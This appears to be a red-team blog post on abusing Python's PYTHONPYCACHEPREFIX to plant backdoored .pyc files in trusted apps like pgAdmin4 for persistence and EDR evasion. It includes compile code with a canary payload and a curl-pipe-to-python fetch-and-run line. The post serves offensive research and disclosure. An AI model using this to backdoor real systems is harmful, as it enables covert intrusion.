





Abusing PYTHONPYCACHEPREFIX
Overview⌗
Using high-level languages for code execution and persistence has become a fairly popular trend as of late. I’m reminded of this post from TrustedSec talking about exactly this. The author discusses how to install Python to a Windows system and provides an overview of what kind of capabilities are available, including how to use ctypes for running unmanaged code. Commercial offensive tooling vendors like Balliskit support Python payloads, and there are even full C2 implants built with it (Medusa, Pyramid, PoshC2).
However, running PowerShell to install Python or even dropping arbitrary Python files to disk can be a risky endeavor within a well-hardened environment. We can do better.
LOTL⌗
A few years back, I was performing a red team engagement against an exceptionally well-hardened environment. They’re a client we’ve worked with for a long time, and they’ve taken all of our recommendations very seriously. Much to their benefit, and the loss of my sanity, the end user workstations had become about as well hardened as any reasonable enterprise could achieve. Tuned EDR, full allowlisting via WDAC, the works. Desperate and racking my brain for something novel, I started going through the applications available within the company portal. After pulling PgAdmin4 and looking through the assets that get installed, I noticed that a portable Python runtime was included.

This alone is a huge boon when fighting against EDR: executing directly from a trusted process in a trusted location. But we still need a means to actually load a payload. We could drop a file to disk and execute, but static file analysis very well may get you caught. You could obfuscate, but then you’ve got to deal with entropy checks. You could also just invoke Python directly, dynamically loading the payload a la curl https://example.com/payload.py | .\python.exe. This obviously has all kinds of drawbacks related to cmd/PowerShell telemetry.
PYTHONPYCACHEPREFIX⌗
The Python3 runtime can be controlled in a number of ways, primarily through command line arguments and environment variables. You can find them documented here. As the title suggests, we’ll be looking at the PYTHONPYCACHEPREFIX environment variable. From the docs:
If this is set, Python will write
.pycfiles in a mirror directory tree at this path, instead of in__pycache__directories within the source tree. This is equivalent to specifying the -Xpycache_prefix=PATHoption.
Lets set this var to something we have write-access to. In this case: an AppData subdirectory.

When launching the app, you’ll see a number of new directories and .pyc files have been created.


Generating Python Bytecode⌗
Now we have a primitive for obtaining write-access to a trusted process’s files. The next step is to weaponize it. This will involve backdooring the .pyc files themselves. These files can be dynamically created by using the py_compile native module (docs here). Importantly, as we’re compiling to bytecode, the Python release we’re using to generate these files needs to exactly match the environment we’re targetting. For PgAdmin4 v9.11.1, this is Python 3.13.9.
If you’re not familiar with Python, the ___init.py___ file is a special initialization file that’s invoked when a package is imported. Given its ubiquitous use, this makes it a great backdoor candidate. For our POC, we’re going to create a simple canary file:
with open("C:/Temp/canary.txt", "w") as f:
f.write("chirp")
We can then compile this into a .pyc file with the following:
from py_compile import compile, PycInvalidationMode
infile = "C:/Users/titan/Desktop/example.py"
outfile = "C:/Users/titan/Desktop/__init__.pyc"
compile(infile, cfile=outfile, invalidation_mode=PycInvalidationMode.UNCHECKED_HASH)
An important bit here is the PycInvalidationMode.UNCHECKED_HASH invalidation mode. This tells the Python runtime to always respect the cache file, even if the original .py file has been modified. This ensures the malicious .pyc persists. Now if we drop this file into the cache directory and reload the PgAdmin4 app, the canary file will be created. This will cause the app to just crash, but that’s not surprising.
Fully weaponizing this is fairly trivial. All we have to do is grab the original ___init__.py file, add our malicious code, and recompile. To target the pycache/Program Files/pgAdmin 4/web/pgadmin/__init__.cpython-313.pyc cache file, we can pull the original from C:/Program Files/pgAdmin 4/web/pgadmin/__init__.py. Drop your malicious code right after the import statements, recompile, drop to disk, et voilà: you now have an implant executing within the context of the parent PgAdmin4 process.
A Note on PgAdmin4 v9.11.2+⌗
I’ve used this technique across several engagements at this point; it’s a surprisingly common app to find within a company portal. However, when going to write this blog, I noticed that PgAdmin4 no longer writes the bytecode files to the expected location. This seems to have started with v9.11.2, which released in Feb 2026. The previous version, v9.11.1, and all other versions I’ve tried this against, work as intended. Discussing with a coworker, it appears this commit introduced a “macOS fix” which disables bytecode generation. Ironically enough, this was enabled by using a different Python env var: PYTHONDONTWRITEBYTECODE. We can confirm this by pulling up the server log:

But not all hope is lost. As the env var name suggests, this only disables writing bytecode and not reading bytecode. To verify this, I modified C:/Program Files/pgAdmin 4/runtime/resources/app/src/js/pgadmin.js, commenting out the process.env.PYTHONDONTWRITEBYTECODE = '1'; line. Restarting the app generated the bytecode, and I created the same ___init__.cpython-313.pyc POC as before. After restoring the PYTHONDONTWRITEBYTECODE env var and restarting the app, the canary file was successfully created.
On a live engagement, you won’t be able to modify the pgadmin.js file to entice the bytecode generation. However, you could do this on a machine you control and then push all the cache files onto the target machine. You could also opt to only drop the single malicious .pyc file. An EDR likely won’t care whether there is a single .pyc or an entire directory tree’s worth, but this may stand out to an adept incident response team.
On Other Applications⌗
To be clear: this primitive is not specific to PgAdmin4. Any application that bundles or otherwise invokes a Python runtime from a user context could be exploited this way. A cursory glance shows that Sublime Text and GIMP use Python for plugin support. Alternatively, a Python developer and all their tooling could be targetted this way, including JupyterLabs Desktop. As long as the target cache file maps to a file that is regularly executed by the user, it can be used as a means of peristence.